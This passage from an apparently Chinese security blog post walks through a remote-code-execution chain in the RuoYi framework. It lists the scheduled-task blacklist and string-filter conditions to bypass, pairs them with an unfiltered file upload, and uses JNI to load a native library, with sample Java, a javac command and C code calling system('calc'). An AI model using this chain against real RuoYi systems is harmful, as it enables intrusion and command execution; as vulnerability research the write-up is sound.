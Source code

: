![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyvt4SdLTibzM0HYyfNGBKnDhvO2onO5VWL3uJEPg4xMZnhWrH3RhULdWg/640?wx_fmt=png&from=appmsg "")  
  
在通过判断beanName是有包名，如果有那就调用包名的逻辑就是获取加载器去加载  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyvQiaqAGomZ2gLFmmkhFcC1ohk34QSXZyv3qfos4axr6ZvnDRVCwZG2AQ/640?wx_fmt=png&from=appmsg "")  
  
最后的我就不说了执行了方法传入了参数。  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyvDeda45PpWnt9oJv8BPr2O3BUhI9T7ibNYbniaYSQPJ9h3uZU1RkTZWvw/640?wx_fmt=png&from=appmsg "")  
  
总结  
  
• 使用的类不在黑名单中  
  
• 包含com.ruoyi.quartz.task字符串  
  
• 不可以使用rmi ldap http字符串  
  
文件上传  
  
  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyvJVzIJRzC8hicu3v64cibGjweBnwEufTzRxfQic1mHHCLYBUIyibM1r7xbw/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_gif/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyvr2NrePicdWiakicHnCCQtRWicpG7fsNibmC01gibI6CXy7RE8mt6ybVKiaFuQ/640?wx_fmt=gif&from=appmsg "")  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyvvelJTleib3NbNFYchQDt1EiaLicT6C1oiaoBaz85Qqy1ra2Jq70XREZexg/640?wx_fmt=png&from=appmsg "")  
  
没有任何过滤的  
  
结合导致RCE  
  
  
  
有一种技术是JNI，java底层还是由c语言实现，而JAVA也允许用户去调用C代码，图如下  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyvwNeBjcaZGX8NVb7jUKMiaGr0sRRPS0zyjda9tqyBy7LK3Y4iaibB7umtw/640?wx_fmt=png&from=appmsg "")  
  
其实利用思路很简单就是利用 c 语言生成 dll 文件，然后利用 System.loadLibrar 来加载执行就行了。  
  
本地实现 JNI  
  
  
  
先编写写一个命令执行的 java 类  
```
package com.ruoyi.system;
public class cmd {
   public native void exec();
}
```  
  
使用Javac编译为C头文件：  
```
& "C:\Program Files\Java\jdk1.8.0_112\bin\javac.exe" -h . -cp . cmd.java
```  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyvML8oBrnPSrjbYXwicCDY7MzSLicfYYVDGuT3OiaCmibrXASguCUG2yrAHA/640?wx_fmt=png&from=appmsg "")  
  
在去编写我的恶意C代码：  
```
#include "com_ruoyi_system_cmd.h"
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

JNIEXPORT void JNICALL Java_com_ruoyi_system_cmd_exec(JNIEnv *, jobject)
{
   system("calc");
}
```  
  